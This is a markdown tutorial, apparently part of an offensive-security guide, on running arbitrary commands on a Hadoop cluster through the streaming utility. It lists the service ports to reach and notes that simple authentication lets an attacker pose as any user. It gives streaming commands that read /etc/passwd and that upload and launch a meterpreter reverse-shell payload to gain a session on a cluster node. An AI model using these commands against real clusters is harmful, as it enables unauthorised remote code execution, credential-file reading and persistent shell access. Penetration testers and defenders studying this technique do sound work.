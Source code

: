 Executing remote commands
=========================

Description
-----------
This tutorial explains how to execute arbitrary commands on an Hadoop cluster

Prerequisites
-------------
1. A **working attack environment**: Hadoop binaries and the target cluster configuration are needed. Follow the following tutorials to set them up: 
  * [Setting up an Hadoop attack environment](../Setting up an Hadoop attack environment)
  * [Getting the target environment configuration](../Getting the target environment configuration)  
  
2. Then you need to be able to access the following **Hadoop services through the network**:
  * **YARN ResourceManager**: usually on ports 8030, 8031, 8032, 8033 or 8050
  * **NameNode metadata service** in order to [browse the HDFS datalake](../Browsing the HDFS datalake): usually on port 8020
  * **DataNode data transfer service** in order to upload/download file: usually on port 50010
  
3. Finally you have to look up which **authentication level** is deployed, the cluster you are attacking might have:
  * Either **simple authentication** enforced: in that case you don't need credentials, you can simply specify which user you want to be with the `HADOOP_USER_NAME`
  * Or **Kerberos authentication** enforced (called ["Hadoop Secure Mode"](https://hadoop.apache.org/docs/r2.7.2/hadoop-project-dist/hadoop-common/SecureMode.html)): in that case you need proper Kerberos tickets
  
  
Executing a single command
--------------------------
1. Go to the directory where you decompressed Hadoop binaries (`/opt` in the tutorial):
  ```
  $ cd /opt/hadoop-2.7.3/
  ```
  
2. Call the Hadoop streaming utility:
  ```
  $ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your single command> -reducer NONE
  ```
  
Some explanations might be useful:
  * `-input <a non empty file on HDFS>`: this will be provided as input to MapReduce for the command to be executed, just put at least a character in that file, this file is useless for our objective 
  * `-output <a nonexistant directory on HDFS>`: this directory will be used by MapReduce to write the result, either `_SUCCESS` or failure
  * `-mapper <your single command>`: the command to execute, for instance `"/bin/cat /etc/passwd"`. The output result will be written in the `-output` directory
  * `-reducer NONE`: there is no need for a reducer to execute a single command, a mapper is enough  

Note that for certain distributions you might need to put **additional parameters** (with `-D`) to submit a MapReduce job, for instance on **HortonWorks cluster** you need the **`-Dhdp.version=<version>`** option: you can find this information when you grab the target cluster configuration.  

Then when the job has terminated its execution: 
* Check the output result:
  ```
  $ hadoop fs -ls <a nonexistant directory on HDFS>
  ```
  
* Display the output:
  ```
  $ hadoop fs -cat <a nonexistant directory on HDFS>/part-00000
  ```
  
  
Executing a meterpreter
-----------------------
Due to the [limitations](#limitations) inherent to Hadoop, it is recommended to **use a `reverse shell` payload.**
```
$ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your executable meterpreter path on HDFS> -reducer NONE -file <your executable meterpreter path on your local attacking environment> -background
```
Again, some explanations:
  * `-file <your executable meterpreter path on your local attacking environment>`: your local meterpreter executable will be uploaded on HDFS, for instance `"/root/foobar/meterpreter.elf"`
  * `-mapper <your executable meterpreter>`: an HDFS path to your executable meterpreter, by default put `"./meterpreter.elf"`
  * `-background`: this starts the job without waiting for its completion  

Then **start your meterpreter listener**, wait **few dozen of seconds** (yes it is quite slow) before gaining your **meterpreter session**.  
  
  
Limitations
-----------
Due to the **distributed nature of a MapReduce job**, it is not possible to specify on which node you want to execute your payload. There is **no mechanism** ensuring that the payload you will launch on **two successive jobs** will execute on the **same cluster member**.  
As a consequence **you can't know beforehand the server IP where your payload will be executed**: so just use a `reverse shell` payload and **gently wait for your shell to arrive**.
  
  
References
----------
Check the [Hadoop Streaming page](https://hadoop.apache.org/docs/r2.7.2/hadoop-streaming/HadoopStreaming.html) for any additional help